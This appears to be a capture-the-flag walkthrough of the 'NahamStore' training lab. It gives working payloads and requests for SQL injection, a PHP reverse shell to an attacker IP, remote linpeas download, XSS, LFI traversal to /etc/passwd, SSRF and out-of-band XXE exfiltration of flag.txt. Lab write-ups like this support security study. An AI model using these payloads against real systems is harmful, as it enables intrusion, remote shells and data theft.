      |_|V...       |_|   https://sqlmap.org

[00:49:38] [INFO] parsing HTTP request from 'post-request.txt'
Multipart-like data found in POST body. Do you want to process it? [Y/n/q] <strong>Y</strong>
Cookie parameter 'token' appears to hold anti-CSRF token. Do you want sqlmap to automatically update it in further requests? [y/N] <strong>N</strong>
[00:49:49] [INFO] testing connection to the target URL
got a 302 redirect to 'http://nahamstore.thm:80/returns/2?auth=c81e728d9d4c2f636f067f89cc14862c'. Do you want to follow? [Y/n] <strong>Y</strong>
redirect is a result of a POST request. Do you want to resend original POST data to a new location? [Y/n] <strong>Y</strong>
[00:49:58] [INFO] testing if the target URL content is stable
you provided a HTTP Cookie header value, while target URL provides its own cookies within HTTP Set-Cookie header which intersect with yours. Do you want to merge them in further requests? [Y/n] <strong>Y</strong>
[00:50:00] [WARNING] (custom) POST parameter 'MULTIPART order_number' does not appear to be dynamic
[00:50:01] [WARNING] heuristic (basic) test shows that (custom) POST parameter 'MULTIPART order_number' might not be injectable
[00:50:01] [INFO] testing for SQL injection on (custom) POST parameter 'MULTIPART order_number'
[00:50:01] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause'
[00:50:02] [INFO] (custom) POST parameter 'MULTIPART order_number' appears to be 'AND boolean-based blind - WHERE or HAVING clause' injectable
[00:50:03] [INFO] heuristic (extended) test shows that the back-end DBMS could be 'MySQL'
it looks like the back-end DBMS is 'MySQL'. Do you want to skip test payloads specific for other DBMSes? [Y/n] <strong>Y</strong>
<strong>Database: nahamstore
Table: sqli_two</strong>
[1 entry]
+----+------------------------------------+
| id | flag                               |
+----+------------------------------------+
| 1  | <strong>{212ec3b036925a38b7167cf9f0243015}</strong> |
+----+------------------------------------+
```


---


#### Privilege Escalation


```
1. Make an account (Password must have 6 characters)
2. Order something
3. Buy it (For card number use: 1234123412341234)
4. Activate "Intercept" in BurpSuite
5. Click on PDF Receipt

# POST REQUEST

<strong>POST /pdf-generator HTTP/1.1 </strong>
Host: nahamstore.thm
Content-Length: 15
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/113.0.0.0 Safari/537.36
Origin: http://nahamstore.thm
Content-Type: application/x-www-form-urlencoded
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://nahamstore.thm/account/orders/4
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: session=dcc74332b2f1bc2894af3b707aa76700; token=221a8cfb7cae903b18741936b94c2829
Connection: close

<strong>what=order&id=4</strong>

6. Right click (Send to Repeater)
7. Save Request to file: post-request.txt
```


---


##### RCE - REMOTE CODE EXECUTION ON ID POSSIBLE WITH COMMAND INJECTION


```
# Let's try to inject a PHP-Reverse-Shell
# PHP-Reverse-Shell Payload
<strong>$(php -r '$sock=fsockopen("10.11.8.178",4444);exec("/bin/sh -i <&3 >&3 2>&3");')</strong>

< Now use BurpSuite URL encoder >
< I got an issue where it made me this payload >
<strong>%24%28%70%68%70%20%2d%72%20%27%24%73%6f%63%6b%3d%66%73%6f%63%6b%6f%70%65%6e%28%22%31%30%2e%31%31%2e%38%2e%31%37%38%22%2c%34%34%34%34%29%3b%65%78%65%63%28%22%2f%62%69%6e%2f%73%68%20%2d%69%20%3c%26%33%20%3e%26%33%20%32%3e%26%33%22%29%3b%27%29</strong>

< Had to add a '4' >

<strong>4</strong>%24%28%70%68%70%20%2d%72%20%27%24%73%6f%63%6b%3d%66%73%6f%63%6b%6f%70%65%6e%28%22%31%30%2e%31%31%2e%38%2e%31%37%38%22%2c%34%34%34%34%29%3b%65%78%65%63%28%22%2f%62%69%6e%2f%73%68%20%2d%69%20%3c%26%33%20%3e%26%33%20%32%3e%26%33%22%29%3b%27%29

# Fireup your Netcat listener now with rlwrap
<strong>sudo rlwrap nc -lvnp 4444</strong>

<strong><em>< Boom - we got a shell! ></em></strong>

# Make Shell stable
<strong>python3 -c 'import pty; pty.spawn("/bin/bash")'</strong>
```


---


##### LINPEAS IT OUT


```
# Make Webserver on attack machine
<strong>sudo python3 -m http.server 8000</strong>

# Download linpeas.sh on victim
<strong>wget http://10.11.8.178:8000/linpeas.sh</strong>
<strong>chmod +x linpeas.sh</strong>
<strong>./linpeas.sh</strong>
```


```
<strong>╔══════════╣ Unexpected in root</strong>
/lfi
/.dockerenv
/startup.sh
<strong>/flag.txt</strong>
/prince.deb

╔══════════╣ Hostname, hosts and DNS
2431fe29a4b0
127.0.0.1       localhost
::1     localhost ip6-localhost ip6-loopback
fe00::0 ip6-localnet
ff00::0 ip6-mcastprefix
ff02::1 ip6-allnodes
ff02::2 ip6-allrouters
172.17.0.4      2431fe29a4b0
<strong>127.0.0.1       nahamstore.thm
127.0.0.1       www.nahamstore.thm
172.17.0.1      stock.nahamstore.thm
172.17.0.1      marketing.nahamstore.thm
172.17.0.1      shop.nahamstore.thm
172.17.0.1      nahamstore-2020.nahamstore.thm
172.17.0.1      nahamstore-2020-dev.nahamstore.thm
10.131.104.72   internal-api.nahamstore.thm</strong>

nameserver 1.1.1.1
nameserver 10.0.0.2
search eu-west-1.compute.internal

╔══════════╣ Active Ports
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#open-ports
tcp    LISTEN  0       70           <strong>127.0.0.1:33060</strong>        0.0.0.0:*
tcp    LISTEN  0       128          <strong>127.0.0.1:3306</strong>         0.0.0.0:*
tcp    LISTEN  0       128            0.0.0.0:80           0.0.0.0:*     users:(("nginx",pid=29,fd=6),("nginx",pid=28,fd=6))

╔══════════╣ Files inside others home (limit 20)
/var/www/html/index.nginx-debian.html
/var/www/html/Autoload.php
/var/www/html/uploads/images/c10fc8ea58cb0caef1edbc0949337ff1.jpg
/var/www/html/uploads/images/cbf45788a7c3ff5c2fab3cbe740595d4.jpg
/var/www/html/controllers/Session.php
/var/www/html/controllers/Website.php
/var/www/html/routes/url.php
/var/www/html/models/Session.php
/var/www/html/models/AddressBook.php
/var/www/html/models/Token.php
/var/www/html/models/Order.php
/var/www/html/models/Basket.php
/var/www/html/models/Http.php
/var/www/html/models/Product.php
/var/www/html/models/Db.php
/var/www/html/models/Returns.php
/var/www/html/models/User.php
/var/www/html/public/robots.txt
/var/www/html/public/index.php
/var/www/html/public/css/bootstrap.min.css
```


---


#### Collection


```
# Get the flag RCE II
<strong>cat /flag.txt</strong>
```


---


```
# We found some other subdomains! - Let's add them to /etc/hosts

<strong>10.10.43.6	nahamstore.thm marketing.nahamstore.thm stock.nahamstore.thm shop.nahamstore.thm nahamstore-2020.nahamstore.thm nahamstore-2020-dev.nahamstore.thm internal-api.nahamstore.thm</strong>
```


---


#### Discovery


##### FFuF


```
<strong>ffuf -u "http://nahamstore-2020-dev.nahamstore.thm/FUZZ" -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt -c -s -recursion</strong>
FUZZ : <strong>api</strong> FFUFHASH : 668e433
Adding a new job to the queue: http://nahamstore-2020-dev.nahamstore.thm/<strong>api</strong>/FUZZStarting queued job on target: http://nahamstore-2020-dev.nahamstore.thm/api/FUZZFFUFHASH : 94f937a7 FUZZ : <strong>customers</strong>
Adding a new job to the queue: http://nahamstore-2020-dev.nahamstore.thm/api/customers/FUZZStarting queued job on target: <strong>http://nahamstore-2020-dev.nahamstore.thm/api/customers/FUZZ</strong>
```


---


##### Let's VISIT **http://nahamstore-2020-dev.nahamstore.thm/api/customers/**


```
# We get the error
<strong>["customer_id is required"]</strong>

# Let's try with customer id
GET <strong>/api/customers/?customer_id=1</strong> HTTP/1.1
{"id":1,"name":"Rita Miles","email":"rita.miles969@gmail.com","tel":"816-719-7115","ssn":"366-24-2649"}

< Send the GET REQUEST to Intruder >

# Intruder - BurpSuite
GET /api/customers/?customer_id=<strong>§1§</strong> HTTP/1.1
Host: nahamstore-2020-dev.nahamstore.thm
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/113.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close

< Select a wordlist with numbers >
< Start attack >
< You can filter the "Status code" >
```





As you can see ID: **1, 2, 3** are valid.





---


#### XSS


```
# XSS I
http://marketing.nahamstore.thm/?error=<strong><script>alert(%27Vulnerable%27)</script></strong>

# XSS II
<strong>POST /basket HTTP/1.1
</strong>
Host: nahamstore.thm
Content-Length: 37
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://nahamstore.thm
Content-Type: application/x-www-form-urlencoded
<strong>User-Agent:</strong> Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/113.0.0.0 Safari/537.36<strong></strong>
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://nahamstore.thm/basket
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: session=dcc74332b2f1bc2894af3b707aa76700; token=221a8cfb7cae903b18741936b94c2829
Connection: close

address_id=5&card_no=1234123412341234
```





```
# XSS III
http://nahamstore.thm/product?id=1&name=<strong></title><script>alert('xss')</script></strong>

< You need to <strong>escape</strong> title to get the XSS working >

# XSS IV
<strong>mm'; alert('xss')//"</strong>

< <strong>Search</strong> for this >

# XSS V
Shop and nahamstore are the same for java we escape <strong>search </strong>variable and in Url, we escape <strong>?q</strong> parameter

< <strong>q</strong> >

# XSS VI
Escape the < <strong>textarea</strong> > Tag

# XSS VII
Search for the <H1> Tag

< <strong>Page Not Found</strong> >

# XSS VIII
Enumerating other input fields there is a discount field on the product page this field is not reflecting anything on the page so capture the request in burp and change the method From POST to GET.

Capture Request

Change the request to GET and move discount in URL next to id

Check source code and found the discount input has a value which is 123

Let’s add payload if there is no filtering we get the alert

123" onmouseover="alert(123)"

< <strong>discount</strong> >
```


---


#### Open Redirect


```
# Open Redirect I
<strong>ffuf -u "http://nahamstore.thm/?FUZZ=https://www.google.com" -w /usr/share/seclists/Discovery/Web-Content/raft-medium-words.txt -c -mc 301,302 2>/dev/null</strong>
[Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 102ms]
    * FUZZ: <strong>r</strong>

< Check if with <strong>r</strong> you can redirect to any website >
<strong>GET /?r=https://google.com HTTP/1.1</strong>

< Successful >
```


---


```
# Open Redirect II
<strong>http://nahamstore.thm/account/addressbook?redirect_url=https://www.google.com</strong>

< Now enter an address >
< Press "Add Address" >

< Successfull >
< <strong>redirect_url</strong> >
```


---


#### CSRF - Cross Site Request Forgery


```
# Change Password
POST /account/settings/password HTTP/1.1
Host: nahamstore.thm
Content-Length: 22
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://nahamstore.thm
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/113.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://nahamstore.thm/account/settings/password
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: session=dcc74332b2f1bc2894af3b707aa76700; token=a89ac5b625b5d6f23aa90922dce8a90c
Connection: close

change_password=123456

< Has no CSRF protection >

# Change E-Mail Address
POST /account/settings/email HTTP/1.1
Host: nahamstore.thm
Content-Length: 192
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://nahamstore.thm
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/113.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://nahamstore.thm/account/settings/email
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: session=dcc74332b2f1bc2894af3b707aa76700; token=a89ac5b625b5d6f23aa90922dce8a90c
Connection: close

<strong>csrf_protect=eyJkYXRhIjoiZXlKMWMyVnlYMmxrSWpvMUxDSjBhVzFsYzNSaGJYQWlPaUl4TmpnMU16a3pNemt4SW4wPSIsInNpZ25hdHVyZSI6IjEzNzI5Y2MwNDBiNTYwN2MzN2E0YjZlOWVlNzg0MmNkIn0%3D&change_email=test%40test.com</strong>
```


---


```
# Go to <a href="https://cyberchef.io/#recipe=Magic(3,false,false,'')&input=ZXlKa1lYUmhJam9pWlhsS01XTXlWbmxZTW14clNXcHZNVXhEU2pCaFZ6RnNZek5TYUdKWVFXbFBhVWw0VG1wbk1VMTZhM3BOZW10NFNXNHdQU0lzSW5OcFoyNWhkSFZ5WlNJNklqRXpOekk1WTJNd05EQmlOVFl3TjJNek4yRTBZalpsT1dWbE56ZzBNbU5rSW4w">CyberChef</a> and Copy the CSRF token
<strong>eyJkYXRhIjoiZXlKMWMyVnlYMmxrSWpvMUxDSjBhVzFsYzNSaGJYQWlPaUl4TmpnMU16a3pNemt4SW4wPSIsInNpZ25hdHVyZSI6IjEzNzI5Y2MwNDBiNTYwN2MzN2E0YjZlOWVlNzg0MmNkIn0</strong>

< It's <strong>base64</strong> encoded >

{"data":"eyJ1c2VyX2lkIjo1LCJ0aW1lc3RhbXAiOiIxNjg1MzkzMzkxIn0=","signature":"13729cc040b5607c37a4b6e9ee7842cd"}
```


---


#### IDOR - Insecure Direct Object Reference


```
# IDOR I
<strong>POST /basket HTTP/1.1
</strong>
Host: nahamstore.thm
Content-Length: 12
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://nahamstore.thm
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/113.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://nahamstore.thm/basket
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: session=dcc74332b2f1bc2894af3b707aa76700; token=a89ac5b625b5d6f23aa90922dce8a90c
Connection: close

<strong>address_id=7</strong>

< Can be changed to any other id >

# IDOR II
POST /pdf-generator HTTP/1.1
Host: nahamstore.thm
Content-Length: 15
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/113.0.0.0 Safari/537.36
Origin: http://nahamstore.thm
Content-Type: application/x-www-form-urlencoded
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://nahamstore.thm/account/orders/7
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: session=dcc74332b2f1bc2894af3b707aa76700; token=a89ac5b625b5d6f23aa90922dce8a90c
Connection: close

what=order<strong>&id=3&user_id=3</strong>

< Encode the payload with BurpSuite >
<strong>
what=order&id=3%26user_id%3d3</strong>
```


---


#### LFI - Local File Inclusion


```
GET /product/picture/<strong>?file=c10fc8ea58cb0caef1edbc0949337ff1.jpg</strong> HTTP/1.1
Host: nahamstore.thm
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/113.0.0.0 Safari/537.36
Accept: image/avif,image/webp,image/apng,image/svg+xml,image/*,*/*;q=0.8
Referer: http://nahamstore.thm/product?id=1&name=Hoodie+%2B+Tee
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: session=dcc74332b2f1bc2894af3b707aa76700; token=a89ac5b625b5d6f23aa90922dce8a90c
Connection: close

# LFI Payload
GET /product/picture/?file=<strong>../</strong> HTTP/1.1
= Not Working

< Send Request to Intruder >

GET /product/picture/?file=<strong>§../§</strong> HTTP/1.1
Host: nahamstore.thm
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/113.0.0.0 Safari/537.36
Accept: image/avif,image/webp,image/apng,image/svg+xml,image/*,*/*;q=0.8
Referer: http://nahamstore.thm/product?id=1&name=Hoodie+%2B+Tee
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: session=dcc74332b2f1bc2894af3b707aa76700; token=a89ac5b625b5d6f23aa90922dce8a90c
Connection: close

< Load the wordlist: <strong>/usr/share/wordlists/seclists/Fuzzing/LFI/LFI-LFISuite-pathtotest-huge.txt</strong> >

< Wait unital all <strong>/../../etc/passwd</strong> are done, if nothing works, change the attack with my wordlist here >

GET /product/picture/?file=<strong>§../§</strong> HTTP/1.1
Host: nahamstore.thm
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/113.0.0.0 Safari/537.36
Accept: image/avif,image/webp,image/apng,image/svg+xml,image/*,*/*;q=0.8
Referer: http://nahamstore.thm/product?id=1&name=Hoodie+%2B+Tee
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: session=dcc74332b2f1bc2894af3b707aa76700; token=a89ac5b625b5d6f23aa90922dce8a90c
Connection: close

< Run again >
< Filter for Lenght 326 >
<strong>You not not have permission to view this file</strong>
GET /product/picture/?file=<strong>..././..././..././..././..././..././etc/passwd</strong> HTTP/1.1

# Get your flag
GET /product/picture/?file=<strong>..././..././..././..././..././..././lfi/flag.txt</strong> HTTP/1.1
```


---


#### SSRF - Server Side Request Forgery


```
# <strong>Install jq</strong> | It's a JSON processing tool
<strong>sudo apt install jq -y</strong>

# Send a <strong>CURL</strong> to the <strong>API</strong>
<strong>curl -X POST -d "product_id=2&server=stock.nahamstore.thm@internal-api.nahamstore.thm/orders#" http://nahamstore.thm/stockcheck | jq</strong>

% Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100   371    0   295  100    76   3699    952 --:--:-- --:--:-- --:--:--  4696
[
  {
    "id": "4dbc51716426d49f524e10d4437a5f5a",
    "endpoint": "/orders/4dbc51716426d49f524e10d4437a5f5a"
  },
  {
    "id": "5ae19241b4b55a360e677fdd9084c21c",
    "endpoint": "/orders/5ae19241b4b55a360e677fdd9084c21c"
  },
  {
    "id": "70ac2193c8049fcea7101884fd4ef58e",
    "endpoint": "/orders/70ac2193c8049fcea7101884fd4ef58e"
  }
]
```


---


##### IN A NUTSHELL


```
-X : method use
-d : send data with request
jq : for clean api visibilty
```


```
# Check the /orders/..
<strong>curl -X POST -d "product_id=2&server=stock.nahamstore.thm@internal-api.nahamstore.thm/orders/5ae19241b4b55a360e677fdd9084c21c#" http://nahamstore.thm/stockcheck | jq</strong>

  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100   488    0   379  100   109   4731   1360 --:--:-- --:--:-- --:--:--  6177
{
  "id": "5ae19241b4b55a360e677fdd9084c21c",
  "customer": {
    "id": 2,
    "name": "Jimmy Jones",
    "email": "jd.jones1997@yahoo.com",
    "tel": "501-392-5473",
    "address": {
      "line_1": "3999  Clay Lick Road",
      "city": "Englewood",
      "state": "Colorado",
      "zipcode": "80112"
    },
    "items": [
      {
        "name": "Hoodie + Tee",
        "cost": "25.00"
      }
    ],
    <strong>"payment": {
      "type": "MasterCard",
      "number": "5190216301622131",
      "expires": "11/2023",
      "CVV2": "223"</strong>
    }
  }
}
```


---


#### XXE - XML External Entitites


```
# Get the flag with this Payload
<strong><?xml version="1.0"?>
 <!DOCTYPE data [<!ELEMENT data ANY><!ENTITY xxe SYSTEM "file:///flag.txt">]>
<data>
  <X-Token>&xxe;</X-Token>
</data></strong>

< Go to http://stock.nahamstore.thm/product/1 >
< With BurpSuite change the REQUEST from GET to <strong>POST</strong> >
< Add "?xml" to the REQUEST >

<strong>POST</strong> /product/1<strong>?xml</strong> HTTP/1.1
Host: stock.nahamstore.thm
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/113.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close
Content-Length: 145

<strong><?xml version="1.0"?>
 <!DOCTYPE data [<!ELEMENT data ANY><!ENTITY xxe SYSTEM "file:///flag.txt">]>
<data>
  <X-Token>&xxe;</X-Token>
</data></strong>

<data>
<error>X-Token {9f18bd8b9acaada53c4c643744401ea8} is invalid</error>
</data>
```


---


```
# Good tutorial for XXE inside a xlsx file.
https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/XXE%20Injection/README.md#xxe-inside-xlsx-file
```


1. 
2. Create a \*.xlsx on a windows machine
3. 
4.
5. 
6. Save it to the kali machine
7. 
8.
9. 
10. Create a folder called like your excel sheet
11. 
12.
13. 
14. Run this command
15. 


```
<strong>unzip XXE-Inside-XLSX.xlsx -d XXE-Inside-XLSX/</strong>
Archive:  XXE-Inside-XLSX.xlsx
  inflating: XXE-Inside-XLSX/[Content_Types].xml
  inflating: XXE-Inside-XLSX/_rels/.rels
  inflating: XXE-Inside-XLSX/xl/workbook.xml
  inflating: XXE-Inside-XLSX/xl/_rels/workbook.xml.rels
  inflating: XXE-Inside-XLSX/xl/worksheets/sheet1.xml
  inflating: XXE-Inside-XLSX/xl/theme/theme1.xml
  inflating: XXE-Inside-XLSX/xl/styles.xml
  inflating: XXE-Inside-XLSX/xl/sharedStrings.xml
  inflating: XXE-Inside-XLSX/docProps/core.xml
  inflating: XXE-Inside-XLSX/docProps/app.xml
```


```
# Add this to your <strong>workbook.xml</strong> change it with your IP
<?xml version="1.0" encoding="UTF-8" standalone="yes"?>
<!DOCTYPE xxe [<!ELEMENT xxe ANY ><!ENTITY % asd SYSTEM "http://<strong>10.11.8.178</strong>/my.xml">
%asd;
%param1;
]>
<xxe>&xxedata;</xxe>
```


XXE inside XLSX (workbook.xml)


```
# ZIP it back
<strong>cd ~/Downloads/XXE-Inside-XLSX/
zip -r ../XXE-Inside-XLSX-Payloaded.xlsx *</strong>
  adding: [Content_Types].xml (deflated 71%)
  adding: docProps/ (stored 0%)
  adding: docProps/app.xml (deflated 52%)
  adding: docProps/core.xml (deflated 49%)
  adding: _rels/ (stored 0%)
  adding: _rels/.rels (deflated 60%)
  adding: xl/ (stored 0%)
  adding: xl/theme/ (stored 0%)
  adding: xl/theme/theme1.xml (deflated 80%)
  adding: xl/sharedStrings.xml (deflated 19%)
  adding: xl/workbook.xml (deflated 60%)
  adding: xl/_rels/ (stored 0%)
  adding: xl/_rels/workbook.xml.rels (deflated 66%)
  adding: xl/worksheets/ (stored 0%)
  adding: xl/worksheets/sheet1.xml (deflated 54%)
  adding: xl/styles.xml (deflated 60%)
```


---


```
# Create another file called <strong>my.xml</strong>
<!ENTITY % data SYSTEM "php://filter/convert.base64-encode/resource=/flag.txt">
<!ENTITY % param1 "<!ENTITY xxedata SYSTEM 'http://<strong>10.11.8.178</strong>/?%data;'>">

# In the first line we convert flag.txt in base64 so it becomes a one liner and stores it in the variable data

# In the 2nd line we fetch data from our own machine which gives 404 because it not exists. But we can see the data as url
```


---


##### SERVER THE FILES


```
# SimpleHTTPServer
<strong>sudo python -m http.server 80</strong>

# Upload the *.xlsx
http://nahamstore.thm/staff

# Get the flag
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.43.6 - - [30/May/2023 00:34:03] "GET /my.xml HTTP/1.0" 200 -
10.10.43.6 - - [30/May/2023 00:34:03] "GET /?<strong>e2Q2YjIyY2IzZTM3YmVmMzJkODAwMTA1YjExMTA3ZDhmfQo=</strong> HTTP/1.0" 200 -

# Decode the Base64 encoded flag
<strong>echo "e2Q2YjIyY2IzZTM3YmVmMzJkODAwMTA1YjExMTA3ZDhmfQo=" | base64 -d</strong>
```


